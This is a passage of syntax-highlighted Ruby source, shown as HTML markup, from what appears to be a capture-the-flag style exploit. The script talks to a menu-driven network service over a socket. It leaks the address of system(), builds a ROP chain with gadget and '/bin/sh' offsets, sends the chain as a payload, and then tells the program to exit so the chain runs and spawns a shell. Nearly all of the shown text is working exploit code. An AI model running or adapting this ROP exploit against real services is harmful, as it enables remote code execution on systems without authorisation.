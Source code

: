   <span class="Statement">loop</span> <span class="Statement">do</span>
    buffer += s.recv(<span class="Constant">1024</span>)
    <span class="Statement">if</span>(buffer =~ <span class="Special">/</span><span class="Special">#{</span>regex<span class="Special">}</span><span class="Special">/m</span>)
      <span class="Statement">return</span> buffer.gsub(<span class="Special">/</span><span class="Special">.</span><span class="Special">*</span><span class="Special">#{</span>regex<span class="Special">}</span><span class="Special">/m</span>, <span class="Special">''</span>)
    <span class="Statement">end</span>
  <span class="Statement">end</span>
<span class="rubyDefine">end</span>

<span class="Comment"># Get the address of &quot;system&quot;</span>
puts(<span class="Special">&quot;</span><span class="Constant">Getting the address of system()...</span><span class="Special">&quot;</span>)
s.write(<span class="Special">&quot;</span><span class="Constant">2</span><span class="Special">\n</span><span class="Special">&quot;</span>)
s.write(<span class="Special">&quot;</span><span class="Constant">system</span><span class="Special">\n</span><span class="Special">&quot;</span>)
system_addr = recv_until(s, <span class="Special">&quot;</span><span class="Constant">Symbol system: </span><span class="Special">&quot;</span>).to_i(<span class="Constant">16</span>)
puts(<span class="Special">&quot;</span><span class="Constant">system() is at 0x%08x</span><span class="Special">&quot;</span> % system_addr)

<span class="Comment"># Build the ROP chain</span>
puts(<span class="Special">&quot;</span><span class="Constant">Building the ROP chain...</span><span class="Special">&quot;</span>)
payload = <span class="Special">&quot;</span><span class="Constant">AAAAAAAA</span><span class="Special">&quot;</span> +
  [system_addr + <span class="Type">GADGET_OFFSET_REAL</span>].pack(<span class="Special">&quot;</span><span class="Constant">&lt;Q</span><span class="Special">&quot;</span>) + <span class="Comment"># address of the gadget</span>
  [system_addr].pack(<span class="Special">&quot;</span><span class="Constant">&lt;Q</span><span class="Special">&quot;</span>) +                      <span class="Comment"># address of system</span>
  [system_addr + <span class="Type">SH_OFFSET_REAL</span>].pack(<span class="Special">&quot;</span><span class="Constant">&lt;Q</span><span class="Special">&quot;</span>) +     <span class="Comment"># address of &quot;/bin/sh&quot;</span>
  <span class="Special">&quot;&quot;</span>

<span class="Comment"># Write the ROP chain</span>
puts(<span class="Special">&quot;</span><span class="Constant">Sending the ROP chain...</span><span class="Special">&quot;</span>)
s.write(<span class="Special">&quot;</span><span class="Constant">3</span><span class="Special">\n</span><span class="Special">&quot;</span>)
s.write(<span class="Special">&quot;</span><span class="Special">#{</span>payload.length<span class="Special">}</span><span class="Special">\n</span><span class="Special">&quot;</span>)
s.write(payload)

<span class="Comment"># Tell the program to exit</span>
puts(<span class="Special">&quot;</span><span class="Constant">Exiting the program...</span><span class="Special">&quot;</span>)
s.write(<span class="Special">&quot;</span><span class="Constant">4</span><span class="Special">\n</span><span class="Special">&quot;</span>)
